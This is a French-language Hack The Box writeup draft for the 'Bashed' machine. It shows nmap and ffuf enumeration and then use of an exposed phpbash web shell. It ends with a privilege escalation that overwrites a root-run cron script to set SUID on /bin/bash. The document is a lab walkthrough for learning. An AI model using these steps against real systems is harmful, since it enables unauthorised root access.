


---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Bashed — HTB Easy Writeup & Walkthrough"
linkTitle: "Bashed"
slug: "bashed"
date: 2026-06-13T11:39:55+02:00
#lastmod: 2026-06-13T11:39:55+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Summary générique de machine CTF"
description: "Description générique de machine CTF"
tags: ["Hack The Box","HTB Easy","linux-privesc"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Bashed"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Bashed"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Bashed> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt bashed.htb
Nmap scan report for bashed.htb (10.129.x.x)
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 9.00 seconds

```

### Scan FTP/SMB

Après le scan initial, le script vérifie la présence éventuelle de services **FTP** ou **SMB** afin de lancer une énumération ciblée si nécessaire :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : bashed.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour bashed.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "bashed.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt bashed.htb
Nmap scan report for bashed.htb (10.129.x.x)
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4, Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.59 ms 10.10.x.1
2   6.78 ms  bashed.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.84 seconds

```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated Mon Jun 15 10:18:56 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt bashed.htb
Nmap scan report for bashed.htb (10.129.x.x)
Host is up (0.0068s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
| http-headers: 
|   Date: [date]
|   Server: Apache/2.4.18 (Ubuntu)
|   Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
|   ETag: "1e3f-55f8bbac32f80"
|   Accept-Ranges: bytes
|   Content-Length: 7743
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; css: 1; html: 2
|     /css/
|       css: 5
|     /images/
|       gif: 1; png: 2
|     /js/
|       js: 8
|   Longest directory structure:
|     Depth: 1
|     Dir: /js/
|   Total files found (by extension):
|_    Other: 1; css: 6; gif: 1; html: 2; js: 8; png: 2
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 31.74 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt bashed.htb
Warning: 10.129.x.x giving up on port because retransmission cap hit (6).
Nmap scan report for bashed.htb (10.129.x.x)
Host is up (0.012s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.15 seconds

```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb bashed.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, ce qui évite de devoir parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : bashed.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://bashed.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/bashed.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://bashed.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/bashed.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/bashed.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://bashed.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/bashed.htb/ffuf_files.json 2>&1 | tee scans_recoweb/bashed.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://bashed.htb/about.html (CODE:200|SIZE:8193)
http://bashed.htb/. (CODE:200|SIZE:7743)
http://bashed.htb/config.php (CODE:200|SIZE:0)
http://bashed.htb/contact.html (CODE:200|SIZE:7805)
http://bashed.htb/css/
http://bashed.htb/css/ (CODE:301|SIZE:306)
http://bashed.htb/dev/
http://bashed.htb/dev/ (CODE:301|SIZE:306)
http://bashed.htb/fonts/
http://bashed.htb/fonts/ (CODE:301|SIZE:308)
http://bashed.htb/.htaccess.bak (CODE:403|SIZE:298)
http://bashed.htb/.htaccess (CODE:403|SIZE:294)
http://bashed.htb/.htc (CODE:403|SIZE:289)
http://bashed.htb/.ht (CODE:403|SIZE:288)
http://bashed.htb/.htgroup (CODE:403|SIZE:293)
http://bashed.htb/.htm (CODE:403|SIZE:289)
http://bashed.htb/.html (CODE:403|SIZE:290)
http://bashed.htb/.htpasswd (CODE:403|SIZE:294)
http://bashed.htb/.htpasswds (CODE:403|SIZE:295)
http://bashed.htb/.htuser (CODE:403|SIZE:292)
http://bashed.htb/images/
http://bashed.htb/images/ (CODE:301|SIZE:309)
http://bashed.htb/index.html (CODE:200|SIZE:7743)
http://bashed.htb/js/
http://bashed.htb/js/ (CODE:301|SIZE:305)
http://bashed.htb/php/
http://bashed.htb/php/ (CODE:301|SIZE:306)
http://bashed.htb/.php (CODE:403|SIZE:289)
http://bashed.htb/server-status (CODE:403|SIZE:298)
http://bashed.htb/server-status/ (CODE:403|SIZE:298)
http://bashed.htb/style.css (CODE:200|SIZE:24164)
http://bashed.htb/uploads/
http://bashed.htb/uploads/ (CODE:301|SIZE:310)
http://bashed.htb/wp-forum.phps (CODE:403|SIZE:298)

=== Détails par outil ===

[DIRB]
http://bashed.htb/css/
http://bashed.htb/dev/
http://bashed.htb/fonts/
http://bashed.htb/images/
http://bashed.htb/index.html (CODE:200|SIZE:7743)
http://bashed.htb/js/
http://bashed.htb/php/
http://bashed.htb/server-status (CODE:403|SIZE:298)
http://bashed.htb/uploads/

[FFUF — DIRECTORIES]
http://bashed.htb/css/ (CODE:301|SIZE:306)
http://bashed.htb/dev/ (CODE:301|SIZE:306)
http://bashed.htb/fonts/ (CODE:301|SIZE:308)
http://bashed.htb/images/ (CODE:301|SIZE:309)
http://bashed.htb/js/ (CODE:301|SIZE:305)
http://bashed.htb/php/ (CODE:301|SIZE:306)
http://bashed.htb/server-status/ (CODE:403|SIZE:298)
http://bashed.htb/uploads/ (CODE:301|SIZE:310)

[FFUF — FILES]
http://bashed.htb/about.html (CODE:200|SIZE:8193)
http://bashed.htb/. (CODE:200|SIZE:7743)
http://bashed.htb/config.php (CODE:200|SIZE:0)
http://bashed.htb/contact.html (CODE:200|SIZE:7805)
http://bashed.htb/.htaccess.bak (CODE:403|SIZE:298)
http://bashed.htb/.htaccess (CODE:403|SIZE:294)
http://bashed.htb/.htc (CODE:403|SIZE:289)
http://bashed.htb/.ht (CODE:403|SIZE:288)
http://bashed.htb/.htgroup (CODE:403|SIZE:293)
http://bashed.htb/.htm (CODE:403|SIZE:289)
http://bashed.htb/.html (CODE:403|SIZE:290)
http://bashed.htb/.htpasswd (CODE:403|SIZE:294)
http://bashed.htb/.htpasswds (CODE:403|SIZE:295)
http://bashed.htb/.htuser (CODE:403|SIZE:292)
http://bashed.htb/index.html (CODE:200|SIZE:7743)
http://bashed.htb/.php (CODE:403|SIZE:289)
http://bashed.htb/style.css (CODE:200|SIZE:24164)
http://bashed.htb/wp-forum.phps (CODE:403|SIZE:298)
```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains bashed.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : bashed.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=7743 words=397 (Host=45uyks2po9.bashed.htb)
  Baseline#2: code=200 size=7743 words=397 (Host=v84leqpj0b.bashed.htb)
  Baseline#3: code=200 size=7743 words=397 (Host=88l1vi8d9e.bashed.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains bashed.htb END ===
```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

### Identification de phpbash

L’énumération web montre que le site présente le projet **phpbash**.



Le texte de la page indique que cet outil permet d’obtenir un shell semi-interactif directement depuis le navigateur, sans passer par une connexion SSH ou un reverse shell classique.

Ce détail est important : sur cette machine, l’objectif initial n’est pas d’exploiter une application complexe, mais d’identifier où l’outil phpbash a été laissé accessible sur le serveur web.




La découverte du répertoire `/dev/` permet ensuite d’accéder au fichier suivant :

```url
http://bashed.htb/dev/phpbash.php
```

En ouvrant cette page dans le navigateur, tu obtiens une console web exécutée côté serveur.

### Accès au système en tant que www-data

Depuis l’interface phpbash, tu vérifies le contexte d’exécution :

```bash
whoami
id
pwd
```



Le shell s’exécute avec l’utilisateur du serveur web :

```text
www-data
```

Le répertoire courant correspond au dossier dans lequel se trouve phpbash :

```text
/var/www/html/dev
```

À ce stade, l’accès obtenu n’est pas un shell SSH classique, mais il permet déjà d’exécuter des commandes sur la machine avec les droits de `www-data`.

Tu peux alors commencer l’énumération locale depuis ce contexte.

### Exploration des répertoires utilisateurs

Tu consultes le contenu de `/home` :

```bash
ls -la /home
```

La sortie montre deux répertoires utilisateurs :

```text
total 16
drwxr-xr-x 4 root root 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
drwxr-xr-x 4 arrexel arrexel 4096 Jun 2 2022 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 scriptmanager
```

Deux comptes locaux sont donc visibles :

- `arrexel`
- `scriptmanager`

Tu explores d’abord le répertoire de `arrexel`, car c’est le compte utilisateur classique de la machine :

```bash
ls -la /home/arrexel
total 32
drwxr-xr-x 4 arrexel arrexel 4096 Jun 2 2022 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
lrwxrwxrwx 1 root root 9 Jun 2 2022 .bash_history -> /dev/null
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Jun 15 01:17 user.txt
```

Le fichier `user.txt` est lisible depuis le contexte `www-data`. Tu peux donc récupérer le flag utilisateur :

```bash
cat /home/arrexel/user.txt
6ef1xxxxxxxxxxxxxxxxxxxxxxxx7ddd
```

Le flag utilisateur est obtenu depuis le shell web exécuté en tant que `www-data`.


### Vérification des droits sudo

L’étape suivante consiste à vérifier si l’utilisateur `www-data` dispose de droits sudo particuliers.

```bash
sudo -l
```

La sortie indique que `www-data` peut exécuter toutes les commandes en tant que l’utilisateur `scriptmanager`, sans mot de passe :

```text
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Le droit `sudo` obtenu ne donne pas directement un accès root. En revanche, il permet de quitter le simple contexte web `www-data` pour exécuter des commandes avec l’identité de `scriptmanager`:

```bash
sudo -u scriptmanager id
```

La sortie confirme le changement de contexte :

```bash
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Comme ce compte dispose de son propre répertoire dans `/home`, l’étape logique consiste maintenant à refaire une énumération locale avec ses droits. L’objectif est de repérer les fichiers et répertoires auxquels `scriptmanager` a accès, et qui n’étaient pas forcément visibles ou exploitables depuis `www-data`.

Cette énumération marque le début de l’escalade de privilèges.


## Escalade de privilèges

## Escalade de privilèges

### Énumération avec les droits de scriptmanager

Tu refais maintenant une énumération locale avec l’identité de `scriptmanager`.

La première recherche vise les fichiers appartenant à cet utilisateur :

```bash
sudo -u scriptmanager find / -user scriptmanager -ls
```

La sortie est très verbeuse, notamment à cause de nombreux chemins liés à `/proc`.

Pour obtenir un résultat plus lisible, tu relances la recherche en excluant `/proc` :

```bash
sudo -u scriptmanager find / -path /proc -prune -o -user scriptmanager -ls
```

La sortie contient encore des erreurs de permissions. Tu ajoutes donc une redirection des erreurs vers `/dev/null`, puis tu filtres les lignes liées à `scriptmanager` :

```bash
sudo -u scriptmanager find / -path /proc -prune -o -user scriptmanager -ls 2>/dev/null | grep scriptmanager
```

Cette énumération fait ressortir notamment les éléments suivants :

```text
drwxr-xr-x   2 scriptmanager scriptmanager      4096 Dec 4 2017 /scripts
-rw-r--r--   1 scriptmanager scriptmanager        58 Dec 4 2017 /scripts/test.py
drwxr-xr-x   3 scriptmanager scriptmanager      4096 Dec 4 2017 /home/scriptmanager
```

Le répertoire `/scripts` n’est donc pas deviné : il ressort directement de l’énumération effectuée avec les droits de `scriptmanager`.

### Analyse du répertoire /scripts

Tu inspectes ensuite le contenu du répertoire `/scripts` :

```bash
sudo -u scriptmanager ls -la /scripts
```

La sortie montre deux fichiers intéressants :

```text
total 16
drwxr-xr-x  2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 23 root          root          4096 Jun 2 2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec 4 2017 test.py
-rw-r--r--  1 root          root            12 Jun 15 01:20 test.txt
```

Le fichier `test.py` appartient à `scriptmanager`. Grâce au droit `sudo` obtenu depuis `www-data`, tu peux donc lire et modifier ce fichier.

Tu affiches son contenu :

```bash
sudo -u scriptmanager cat /scripts/test.py
```

Le script Python est très simple :

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close()
```

Il écrit une chaîne de caractères dans le fichier `test.txt`.

Or, dans `/scripts`, le fichier `test.txt` appartient à `root` :

```text
-rw-r--r--  1 root root 12 Jun 15 01:20 test.txt
```

C’est un indice fort : le script est probablement exécuté par `root`, ou au moins dans un contexte privilégié.

### Vérification de l’exécution automatique

Pour vérifier le comportement sans outil supplémentaire, tu observes l’horodatage du fichier `test.txt` :

```bash
sudo -u scriptmanager ls -l /scripts/test.txt
```

Après environ une minute, tu relances la même commande :

```bash
sudo -u scriptmanager ls -l /scripts/test.txt
```

L’horodatage change, tandis que le propriétaire reste `root`.

Le script `test.py` est donc exécuté régulièrement dans un contexte privilégié. Comme il appartient à `scriptmanager`, tu peux le modifier et profiter de cette exécution automatique pour élever tes privilèges.

- ### Modification de test.py

  L’objectif est d’obtenir un moyen simple d’exécuter une commande avec les privilèges root.

  Une méthode efficace consiste à faire poser le bit SUID sur `/bin/bash`. Dans phpbash, le signe `+` peut poser problème dans certaines commandes. Pour éviter cette difficulté, tu utilises directement la notation numérique des permissions avec `chmod 4755`.

  Tu remplaces donc le contenu de `/scripts/test.py` avec les droits de `scriptmanager` :

  ```bash
  sudo -u scriptmanager bash -c 'cat > /scripts/test.py << "EOF"
  import os
  os.system("chmod 4755 /bin/bash")
  EOF'
  ```

  Cette commande ne donne pas root immédiatement. Elle modifie seulement le fichier `test.py`, qui appartient à `scriptmanager`.

  L’élévation se produit lorsque ce script est exécuté à nouveau dans son contexte privilégié.

  Tu vérifies ensuite les permissions de `/bin/bash` :

  ```bash
  ls -l /bin/bash
  ```

  Lorsque le bit SUID est en place, les permissions contiennent un `s` sur la partie utilisateur :

  ```text
  -rwsr-xr-x 1 root root 1113504 Jun 6 2019 /bin/bash
  ```

  Le `s` dans `rws` indique que `/bin/bash` s’exécutera avec les privilèges effectifs de son propriétaire, ici `root`.

  ### Lecture du flag root

  Dans un terminal classique, `/bin/bash -p` permettrait d’obtenir un shell avec les privilèges effectifs de root.

  Ici, l’exécution se fait depuis phpbash. Pour éviter les limites de ce shell web, tu lances directement les commandes nécessaires avec l’option `-c` :

  ```bash
  /bin/bash -p -c 'id; whoami; cat /root/root.txt'
  ```

  La sortie confirme que l’utilisateur effectif est `root` :

  ```text
  uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
  root
  c27bxxxxxxxxxxxxxxxxxxxxxxxx9225
  ```

  L’accès root est confirmé et le flag final est récupéré : la machine est terminée.


## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`

